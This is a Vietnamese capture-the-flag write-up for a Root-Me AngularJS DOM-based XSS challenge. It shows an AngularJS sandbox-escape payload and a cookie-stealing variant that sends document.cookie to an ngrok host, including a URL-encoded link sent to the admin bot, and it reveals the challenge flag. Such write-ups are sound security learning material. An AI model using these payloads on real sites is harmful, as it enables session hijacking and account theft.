










# Challenge: XSS DOM Based - AngularJS
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 180 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS?lang=en
- Bài này cũng giống như bài trước `XSS DOM Base - Intro`, cũng có 2 trang `Main` và `Contact` Phần chính (main) của trang web cho ta một ô nhập dữ liệu, còn phần contact thì ta gởi đường dẫn để admin truy cập.

Trong phần nhập liệu, khi chúng ta thử nhập một số văn bản bình thường thì ta thấy nó đều in ở dưới phần result và thực hiện tình toán. Chúng ta cần xem souce code của nó thử xem nó render ra cho ta gì? 

Ta thử nhập chuỗi 1231';>23 Lúc này ta thấy nó đã lọc và xóa đi những kí tự đặc biệt, ở cả 2 nơi (thẻ p và script)

- đề bài có đề cập đến AngularJS, nên ta kiểm tra thử với input là `{{1+1}}`. khi đó ta thấy phần result cho ra kết quả là 2. 

- đến đây ta thấy nó đang thực hiện lệnh trong script, đây là lỗi xss, ta tiếp tục cố gắng thực hiện lệnh alert(1). Tuy nhiên thì nó cũng không thực hiện gì cả, cũng không có thông báo gì cả.

- Tìm kiếm thêm trên google, tìm được <a href="https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss" alt=""> bài này</a>

- Thực thi lệnh alert(1) bằng input `{{$on.constructor("alert(1)")()}}`

- Tương tự như những bài trước đến đầy ta sẽ có input để có thể lấy được cookie gởi về server của ta như sau: `{{$on.constructor("document.location='http://b8d1-113-161-34-227.ngrok.io/?cookie='+document.cookie")()}}`. Tuy nhiên, ta sẽ nhận lỗi trang web đã lọc kí tự `'`, do đó ta sẽ thay thế bằng `$#39;`. 

- Khi đó ta được `{{$on.constructor("document.location=&#39;http://b8d1-113-161-34-227.ngrok.io/?cookie=&#39;+document.cookie")()}}`, ta nhập nó vào ô input,

- Để có thể lấy được đường link gởi cho admin, ta dùng tiện ích HTTP Header Live `http://challenge01.root-me.org/web-client/ch35/index.php?name=%7B%7B%24on.constructor%28%22document.location%3D%26%2339%3Bhttp%3A%2F%2Fb8d1-113-161-34-227.ngrok.io%2F%3Fcookie%3D%26%2339%3B%2Bdocument.cookie%22%29%28%29%7D%7D`. Sau khi có được link ta vào Contact và gởi nó cho admin.

- Kiểm tra server PHP ta thấy được cookie được gởi đến bỡi admin

## Kết quả flag là `rootme{@NGu1@R_J$_1$_C001}`